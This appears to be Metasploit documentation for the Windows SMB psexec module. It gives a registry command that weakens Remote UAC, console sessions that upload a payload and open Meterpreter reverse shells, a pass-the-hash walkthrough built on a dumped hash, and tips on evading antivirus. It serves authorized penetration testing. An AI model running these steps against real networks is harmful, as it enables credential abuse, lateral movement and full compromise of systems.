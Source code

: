 ## Vulnerable Application
PsExec is one of the most popular exploits against Microsoft Windows. It is a great way to test password security and demonstrate how a
stolen password could lead to a complete compromise of an entire corporate network.

To be able to use `exploit/windows/smb/psexec`:

1. A valid username and password must be set.
1. The firewall must allow SMB traffic.
1. The remote Windows machine's network security policy must allow it. See the "Disabling Remote UAC" section below.

### Disabling Remote UAC
If the specified account is a local Administrator and the target is Windows Vista or newer, then "Remote UAC" must be
disabled (the `DWORD` value
`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` must be 1).
See [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy][1] for more information. Without this setting, the
server will respond with `STATUS_ACCESS_DENIED` and PsExec will fail.

Set this registry with the following command:
```
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

## Verification Steps

At the minimum, you should be able use psexec to get a session with a valid credential using the following:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass goodpass
SMBPass => goodpass
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \PTIhqIrQ.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \PTIhqIrQ.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1042) at 2016-03-01 16:51:56 -0600

meterpreter > 
```

## Options

By default, using exploit/windows/smb/psexec can be as simple as setting the RHOST option, and you're ready to go. But in reality, you will
probably need to at least configure:

**The SMBUser Option**

This is a valid Windows username.

**The SMBPass option**

This can be either the plain text version or the Windows hash.

## Scenarios


**Pass the Hash**

One common penetration testing scenario using psexec is that attackers usually begin by breaking into a box, dumping the hashes, and using
some of those hashes to log into other boxes on the network using psexec. So in that scenario, with the following stolen hash:

```
meterpreter > hashdump
Administrator:500:e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f:::
```

You can simply copy and paste it to the SMBPass option in psexec and get a session without needing to crack the hash:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
SMBPass => e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \QpxKDHyG.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \QpxKDHyG.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1043) at 2016-03-01 17:02:46 -0600

meterpreter > 
```

**Automatic Target**

There are multiple targets available for exploit/windows/smb/psexec. The Automatic target is the default target. If the  Automatic target
detects Powershell on the remote machine, it will try Powershell, otherwise it uses the natie upload. Each target is explained below.

**Powershell Target**

The Powershell target forces the psexec module to run a Powershell command with a payload embedded in it. Since this approach does not
leave anything on disk, it is a very powerful way to evade antivirus. However, older Windows machines might not support Powershell by
default.

Because of this, you will probably want to use the Automatic target setting. The automatic mode will check if the target supports
Powershell before it tries it; the manually set Powershell target won't do that.

**Native Upload Target**

The Native target will attempt to upload the payload (executable) to SYSTEM32 (which can be modified with the
SMBSHARE datastore option), and then execute it with psexec.

This approach is generally reliable, but has a high chance of getting caught by antivirus on the target. To counter this, you can try to
use a template by setting the EXE::Path and EXE::Template datastore options. Or, you can supply your own custom EXE by setting the
`EXE::Custom` option.

**MOF Upload Target**

The [MOF](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-WbemExec-for-a-write-privilege-attack-on-Windows) target
technically does not use psexec; it does not explicitly tell Windows to execute anything. All it does is upload two files: the payload
(exe) in SYSTEM32 and a managed object format file in SYSTEM32\wbem\mof\ directory. When Windows sees the MOF file in that directory, it
automatically runs it. Once executed, the code inside the MOF file basically tells Windows to execute our payload in SYSTEM32, and you get
a session.

Although it's a neat trick, Metasploit's MOF library only works against Windows XP and Windows Server 2003. And since it writes files to
disk, there is also a high chance of getting caught by antivirus on the target.

The best way to counter antivirus is still the same. You can either use a different template by setting the EXE::Path and EXE::Template
datastore options or you can supply your own custom EXE by setting the EXE::Custom option.

**Command**

The command target causes the psexec operation to execute an operating system command. This can either be a `cmd/windows/` payload provided
by Metasploit, or the user can specify their own by using the `cmd/windows/generic` payload and setting `CMD`. The output of the command
will be written to a file and then retrieved so that it is accessible. If the command does not immediately return, then reading the output
will fail.

[1]: https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/
